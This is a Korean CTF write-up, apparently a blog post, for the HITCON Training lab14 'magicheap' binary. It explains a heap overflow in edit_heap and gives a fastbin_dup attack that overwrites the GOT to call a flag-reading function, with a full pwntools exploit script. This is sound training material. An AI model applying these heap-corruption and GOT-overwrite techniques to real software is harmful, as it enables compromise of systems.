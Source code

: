 ```yaml
---
layout: post
title: "[HITCON Training] lab14"
comments : true
category : War Game
---
```


# 문제
***

magicheap 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
magicheap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ff750591e88f96896be63694b6ea85d337fce3a, not stripped
```

바이너리 코드

__create_heap()__
```c
unsigned __int64 create_heap()
{
  ...

  for ( i = 0; i <= 9; ++i )
  {
    if ( !heaparray[i] )
    {
      printf("Size of Heap : ");
      read(0, &buf, 8uLL);
      size = atoi(&buf);
      heaparray[i] = malloc(size);
      ...
      printf("Content of heap:", &buf);
      read_input(heaparray[i], size);
      puts("SuccessFul");
      return __readfsqword(0x28u) ^ v4;
    }
  }
  ...
}
```

__edit_heap()__
```c
unsigned __int64 edit_heap()
{
  ...
  printf("Index :");
  read(0, &buf, 4uLL);
  v2 = atoi(&buf);
  ...
  if ( heaparray[v2] )
  {
    printf("Size of Heap : ", &buf);
    read(0, &buf, 8uLL);
    v0 = atoi(&buf);
    printf("Content of heap : ", &buf);
    read_input(heaparray[v2], v0);
    puts("Done !");
  }
  ...
}
```

__delete_heap()__
```c
unsigned __int64 delete_heap()
{
  ...
  printf("Index :");
  read(0, &buf, 4uLL);
  v1 = atoi(&buf);
  ...
  if ( heaparray[v1] )
  {
    free(heaparray[v1]);
    heaparray[v1] = 0LL;
    puts("Done !");
  }
  ...
}
```

__edit_heap()__ 함수에서 overflow 취약점이 존재한다. 이를 통해서 다음 chunk의 header, fd, bk 등을 overwrite할 수 있다.
<br/>
이를 통해서 lab12 문제를 풀 때 사용했던 fastbin_dup 공격이 가능하다.
<br/>

## exploit 방법
1. 0x40 짜리 chunk를 3개 생성한다.
2. 세 번째 chunk와 두 번쨰 chunk를 free한다.
3. __edit_heap()__ 함수를 이용해서 두 번째 chunk의 fd를 (stack_chk_got -6)로 덮어쓴다.
4. 0x30 짜리 chunk를 2개 생성하면 두 번째 chunk의 주소가 (stack_chk_got + 10 )이 된다. 
5. printf의 got를 flag를 읽는 __l33t()__ 함수의 주소로 덮어쓴다.

<br/><br/>

__문제 해설에서는 unsorted bin attack을 이용했다. 이 공격에 대해서 대략적인 이해만 했다. 다음에 fake arena 생성 방법에 대해서 공부해보자.__

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def create_heap(size,content):
	p.recvuntil("choice :")
	p.send("1"+"\x00")
	p.recvuntil("Heap : ")
	p.send(str(size))
	p.recvuntil("heap:")
	p.send(content)
	p.recvuntil("SuccessFul\n")

def edit_heap(index,size,content):
	p.recvuntil("choice :")
        p.send("2"+"\x00")
	p.recvuntil("Index :")
	p.send(index)
	p.recvuntil("Heap : ")
	p.send(str(size))
	p.recvuntil("heap : ")
	p.send(content)
	p.recvuntil("!\n")

def delete_heap(index):
	p.recvuntil("choice :")
	p.send("3"+"\x00")
	p.recvuntil("Index :")
	p.send(index)
	p.recvuntil("!\n")

file_path="/home/sungyun/round4/lab14/magicheap"

p=process(file_path)

stack_chk_got=0x602030
cat_flag=0x400c23


create_heap(0x30,"ha_weeeee^___^")
create_heap(0x30,"ba_weeeee^___^")
create_heap(0x30,"weeeee^___^")

delete_heap("2")
delete_heap("1")

pay="A"*0x30
pay+="\x00"*8
pay+="\x41"+"\x00"*7
pay+=p64(stack_chk_got-6)

edit_heap("0",len(pay),pay)

create_heap(0x30,"g00000000d")
create_heap(0x30,"sosim")

pay2="\x40"+"\x00"*5 #system
pay2+=p64(cat_flag)

edit_heap("2",len(pay2),pay2)

p.recvuntil("-\n")
p.recvuntil("-\n")
p.recvuntil("-\n")

print p.recv()
```

